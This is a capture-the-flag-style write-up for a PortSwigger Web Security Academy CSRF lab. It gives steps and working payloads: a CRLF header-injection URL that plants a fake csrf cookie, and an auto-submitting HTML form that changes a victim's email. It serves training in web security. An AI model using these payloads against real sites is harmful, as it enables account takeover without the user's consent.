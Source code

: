 ## CSRF where token is duplicated in cookie
Reference: https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie


### Quick Solution
This lab is somehow similar to the one before. In this case the ``csrf`` is duplicated in a cookie and can be injected into the victim's browser the same way as the previous lab.


### Solution
1. With your browser proxying traffic through Burp Suite, log in to your account, submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that the value of the ``csrf`` body parameter is simply being validated by comparing it with the csrf cookie.
3. Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
4. Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:
```
/?search=test%0d%0aSet-Cookie:%20csrf=fake
```
5. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab, ensuring that your CSRF token is set to "fake". The exploit should be created from the email change request.
6. Remove the script block, and instead add the following code to inject the cookie and submit the form:
```html
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

7. Store the exploit, then click "Deliver to victim" to solve the lab.

example:

<html>
  
  <body>
    <form action="https://0ae7001b0439bf30810d9dd000e00058.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="aznrjechtnt&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0ae7001b0439bf30810d9dd000e00058.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>


## Lab: SameSite Lax bypass via method override

Solution
Study the change email function
